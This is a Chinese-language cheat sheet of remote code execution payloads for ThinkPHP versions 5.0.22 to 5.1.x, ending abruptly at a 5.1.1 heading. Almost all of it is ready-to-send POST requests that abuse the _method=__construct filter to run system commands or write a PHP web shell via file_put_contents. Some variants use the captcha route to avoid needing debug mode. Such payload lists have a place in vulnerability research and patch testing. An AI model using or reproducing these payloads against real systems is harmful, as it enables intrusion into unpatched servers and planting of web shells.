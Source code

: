 ### 5.0.22
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('Y4er.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
### 5.0.23
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('Y4er.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
### 5.0.24
作为5.0.x的最后一个版本，rce被修复
### 5.1.0
默认debug为true
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true 
`"topthink/think-captcha": "2.*"`
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
```
### 5.1.1
命令执行